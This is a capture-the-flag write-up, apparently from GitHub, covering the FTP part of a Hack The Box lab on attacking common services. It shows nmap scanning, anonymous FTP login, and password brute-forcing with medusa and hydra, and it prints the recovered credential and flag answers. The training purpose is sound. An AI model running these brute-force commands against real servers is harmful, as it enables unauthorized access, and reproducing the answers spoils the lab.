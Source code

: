 # HTB-Attacking_Common_Services
## Table of Contents
1. [FTP](#ftp)

### FTP
#### Tools
1. medusa
2. hydra
#### Challenges
1. What port is the FTP service running on?

    We can solve this by using nmap to find ftp port.

    ```bash
    sudo nmap -sV -sC 10.129.55.8 -v
    ```
    ![alt text](Assets/FTP1.png)

    The answer is 2121.

2. What username is available for the FTP server?

    Based on the nmap output, the anonymous login is allowed. So i tried to ftp anonymously.

    ```bash
    ftp 10.129.55.8 2121
    ```
    In there, we can find users.list and passwords.list. After download using `get <file name>`, we can bruteforce by using medusa.
    
    ```bash
    medusa -U users.list -P passwords.list -h 10.129.55.8 -n 2121 -M ftp
    ```
    Another way for the faster result is using `hydra`.

    ```bash
    sudo hydra -L users.list -P passwords.list -t 32 -s 2121 ftp://10.129.55.8
    ```
    Then we will get `robin:7iz4rnckjsduza7` credential. The answer is `robin`.

3. Using the credentials obtained earlier, retrieve the flag.txt file. Submit the contents as your answer.

    By using the credential that we found, we can get the flag. The answer is `HTB{ATT4CK1NG_F7P_53RV1C3}`.